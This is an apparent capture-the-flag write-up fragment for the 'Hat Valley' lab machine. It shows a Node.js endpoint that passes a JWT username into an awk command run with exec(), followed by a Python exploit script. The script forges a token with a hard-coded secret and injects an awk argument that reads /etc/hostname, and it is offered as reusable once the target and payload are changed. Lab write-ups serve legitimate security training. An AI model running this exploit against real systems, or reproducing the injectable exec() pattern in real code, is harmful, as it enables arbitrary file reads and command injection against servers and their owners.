 ```javascript
  const badInUser = bad.some(char => user.includes(char));

  if(badInUser) {
    return res.status(500).send("Bad character detected.")
  }
  console.log("User: " + user)
  console.log("awk '/" + user + "/' /test.csv")
  exec("awk '/" + user + "/' /test.csv", {encoding: 'binary', maxBuffer: 51200000}, (error, stdout, stderr) => {

    if(stdout) {
      return res.status(200).send(new Buffer(stdout, 'binary'));
    }

    if (error) {
      return res.status(500).send("Failed to retrieve leave requests")
    }
    if (stderr) {
      return res.status(500).send("Failed to retrieve leave requests")
    }
  })
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})
```

And exploit script. (Target needs to be modified accordingly, same as payload)

```python
import sys
import requests
import jwt

def jwt_inject_command(target,payload,secret):

	#encoded_jwt = jwt.encode({secret})
	encoded_jwt = jwt.encode({'username': payload}, secret, algorithm='HS256')
	print("Token:" + encoded_jwt)
	cookies={
		'token':encoded_jwt
	}
	r = requests.get(target,cookies=cookies)
	return r

def main():
	if len(sys.argv)!=1:
		print("Usage: SCRIPT URL PAYLOAD")
		sys.exit(1)
	#target = sys.argv[1]
	#payload = sys.argv[2]
	#target = 'http://hat-valley.htb/api/all-leave'
	target= 'http://localhost:3000/api/all-leave'

	# Arbitrary read
	payload = "/' /etc/hostname '/"
	secret="123beany123"

	out = jwt_inject_command(target,payload,secret)
	print(out.text)

if __name__ == '__main__':
	main()
```
